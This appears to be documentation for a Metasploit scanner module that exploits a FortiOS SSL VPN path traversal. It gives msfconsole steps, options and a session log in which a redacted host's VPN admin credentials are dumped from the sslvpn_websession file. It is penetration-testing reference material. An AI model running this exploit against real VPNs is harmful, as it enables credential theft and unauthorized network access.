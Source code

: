 ## Vulnerable Application
Fortinet FortiOS versions 5.4.6 to 5.4.12, 5.6.3 to 5.6.7 and 6.0.0 to 6.0.4 are vulnerable to
a path traversal vulnerability within the SSL VPN web portal which allows unauthenticated attackers
to download FortiOS system files through specially crafted HTTP requests.

This module exploits this vulnerability to read the usernames and passwords of users currently logged
into the FortiOS SSL VPN, which are stored in plaintext in the `/dev/cmdb/sslvpn_websession` file on
the VPN server.

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

If set, then store gathered credentials into the Metasploit creds database.

## Scenarios

### FortiOS 6.0

```
msf6 > use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > show options

Module options (auxiliary/scanner/http/fortios_vpnssl_traversal_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   TARGETURI    /remote          yes       Base path
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set RHOSTS *redacted*
RHOSTS => *redacted*
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] https://*redacted*:10443 - Trying to connect.
[+] https://*redacted*:10443 - Vulnerable!
[+] https://*redacted*:10443 - File saved to /home/gwillcox/.msf4/loot/20210226120613_default_*redacted*__631458.txt
[+] https://*redacted*:10443 - 1 credential(s) found!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > creds
Credentials
===========

host            origin          service            public  private    realm  private_type  JtR Format
----            ------          -------            ------  -------    -----  ------------  ----------
*redacted*  *redacted*  10443/tcp (https)  admin   *redacted*         Password

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > cat /home/gwillcox/.msf4/loot/20210226120613_default_*redacted*__631458.txt
[*] exec: cat /home/gwillcox/.msf4/loot/20210226120613_default_*redacted*__631458.txt

var fgt_lang =
�/V^PƁ@"�V�V^f�V^V�V^172.20.5.254admin*redacted*RemoteUSersfull-accessroot�бmsf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```
